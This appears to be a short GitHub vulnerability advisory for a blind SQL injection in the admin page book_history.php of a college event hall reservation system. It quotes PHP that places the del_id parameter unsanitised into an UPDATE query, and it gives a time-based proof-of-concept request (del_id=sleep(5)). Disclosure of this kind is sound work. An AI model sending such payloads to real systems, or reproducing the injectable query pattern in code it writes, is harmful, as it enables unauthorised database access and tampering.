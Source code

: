 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Blind SQL Injection book_hitory.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/book_history.php

## Code
```php
if(isset($_GET['del_id'])){
    $del_id = $_GET['del_id'];
    $sql = "UPDATE tbl_book_history SET status='Cancelled' WHERE book_id=$del_id";
    $result = $conn->query($sql);
}
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/book_history.php?del_id=sleep(5) HTTP/1.1
Host: [REDACTED]
```

## Screenshot


